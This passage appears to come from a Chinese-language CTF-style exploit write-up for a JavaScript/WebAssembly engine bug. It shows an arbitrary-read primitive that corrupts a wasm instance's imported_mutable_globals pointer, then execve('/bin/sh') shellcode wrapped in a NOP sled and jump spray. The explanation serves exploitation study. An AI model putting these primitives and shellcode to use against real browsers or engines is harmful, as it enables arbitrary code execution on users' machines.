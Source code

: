 ```js
function aar(addr) {
    let ret = null;
    let victim_bk = victim[0];
    victim[0] = addr;
    victim[0] = 0n;
    if (aligned) {
        let bk = victim[ wasm_idx + 10n ];
        victim[ wasm_idx + 10n ] = js_base; // set imported_mutable_globals ptr
        ret = getGlobal();
        victim[ wasm_idx + 10n ] = bk;
    } else {
        let bk1 = victim[ wasm_idx + 10n ];
        let bk2 = victim[ wasm_idx + 11n ];
        victim[ wasm_idx + 10n ] = (victim[ wasm_idx + 10n ] & 0xffffffffn) + ((js_base & 0xffffffffn) << 32n);
        victim[ wasm_idx + 11n ] = ((victim[ wasm_idx + 11n ] >> 32n) << 32n) + (js_base >> 32n);
        ret = getGlobal();
        victim[ wasm_idx + 10n ] = bk1;
        victim[ wasm_idx + 11n ] = bk2;
    }
    victim[0] = victim_bk;
    return ret;
}
```

- 10 為 `imported_mutable_globals` 的 offset (0x40)



有了 aar / aaw，再來就是寫 shellcode，除了最基本的 `sys_execve("/bin/sh", 0, 0)`，因為 wasm function 的 entry point address 受到隨機化影響，因此我多 spray 了 `nop` 以及 `jmp .-0x60` 的 instruction 在 `sys_execve` shellcode 前後，這樣可以確保 exploit 不受太多隨機化影響：

```js
/*
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
mov rdi, 0x68732f6e69622f
mov qword ptr [rsp], rdi
mov rdi, rsp
syscall

b'H\xc7\xc0;\x00\x00\x00H1\xf6H1\xd2H\xbf/bin/sh\x00H\x89<$H\x89\xe7\x0f\x05'
*/

nop = Array(0x8).fill(0x9090909090909090n); // 0x40
shellcode = [0x480000003bc0c748n, 0x2fbf48d23148f631n, 0x480068732f6e6962n, 0x050fe78948243c89n]; // 0x20
jmp = Array(0xc).fill(0x9eeb9eeb9eeb9eebn); // 0x60
payload = nop + shellcode + jmp; // 0xc0
```


